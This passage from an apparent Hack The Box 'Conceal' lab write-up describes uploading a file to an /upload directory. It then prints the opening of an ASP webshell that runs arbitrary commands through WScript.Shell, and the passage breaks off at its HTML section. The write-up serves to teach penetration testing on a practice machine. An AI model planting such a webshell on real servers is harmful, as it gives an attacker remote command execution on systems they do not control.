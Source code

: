 ```
```
#### I went to `/upload` and found my test file : 
![](/images/hackthebox/conceal/15.png)
#### Great ! I uploaded an `asp` shell to get remote code execution : 
![](/images/hackthebox/conceal/16.png)
#### `shell.asp` : 
```
<!--
ASP Webshell
Working on latest IIS 
Referance :- 
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp
http://stackoverflow.com/questions/11501044/i-need-execute-a-command-line-in-a-visual-basic-script
http://www.w3schools.com/asp/
-->


<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>


<HTML>
```